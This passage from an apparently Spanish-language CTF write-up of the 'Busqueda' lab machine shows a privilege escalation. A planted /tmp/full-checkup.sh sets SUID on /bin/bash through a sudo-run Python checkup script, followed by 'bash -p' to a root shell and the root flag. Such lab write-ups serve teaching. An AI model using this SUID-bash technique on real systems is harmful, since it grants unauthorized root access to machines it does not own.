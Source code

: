 ```null
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)

```

Puedo llegar a ejecutar un script en bash llamado ```full-checkup.sh```. Lo creo en ```/tmp``` para asignarle el SUID a la ```bash```

```null
#!/bin/bash
chmod u+s /bin/bash
```

Puedo ver la segunda flag

```null
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# cat /root/root.txt
59b01d7435b6c3d96169c98af0e1c759
```
